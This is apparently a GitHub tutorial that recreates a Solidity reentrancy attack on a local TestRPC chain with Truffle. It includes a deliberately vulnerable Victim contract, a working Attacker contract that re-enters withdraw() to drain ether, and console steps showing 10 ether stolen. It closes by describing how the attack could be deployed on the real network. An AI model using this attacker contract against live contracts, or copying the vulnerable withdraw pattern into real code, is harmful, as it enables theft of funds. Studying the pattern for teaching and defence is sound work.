 # Recreating Reentrancy Attack
The document below goes through a "reentrancy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 2. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

```
$ npm i -g ethereumjs-testrpc
$ npm i -g truffle
```

### 3. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {

  function withdraw() {
    uint transferAmt = 100000000000000000;
    if (!msg.sender.call.value(transferAmt)()) throw;
  }

  function deposit() payable {}
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim v;
  uint public count;

  event LogFallback(uint c, uint balance);

  function Attacker(address victim) {
    v = Victim(victim);
  }

  function attack() {
    v.withdraw();
  }

  function () payable {
    count++;
    LogFallback(count, this.balance);
    if (count < 10) {
      v.withdraw();
    }
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this
folder is your contracts in their `binary` and `abi` forms.

```
$ truffle compile
```

The command below `deploys` the contracts
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console,
so we can interact with our deployed contracts (Victim, Attacker), and
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victim.then(contract => victimAddress = contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.18' // or somthing close to this
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract => contract.deposit.sendTransaction({from: acct1, to: victimAddress, value: web3.toWei(11, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier,
that allows us to send ether to that function/contract from our `acct1` address.
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again,
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'88.18' // or somthing close to this
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'11'
```

### 5. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have
eth in that contract, lets steal some of that. but first lets check
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attacker.then(contract => attackerAddress = contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above is going to run recursively 10 times, because of the
conditional in our `default payable` function.

Now if everything is done correctly, we can see the reflection of what happened
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'1'
```

So as you can see the `Victim`'s contract is missing an additional `10` eth!!!

6. The Attack!!!

So the attacker finds a contract to attack, gets the contract's address and creates an
`Attacker` contract with an instances of the `Victim`'s contract to call against and targets the
the deployed `Victim`'s contract by address. Onces it has all of those variables in place, the attacker can
deploy the malicious contract to the Ethereum network and then call the `.attack()` method to drain
the `Victim`s address.
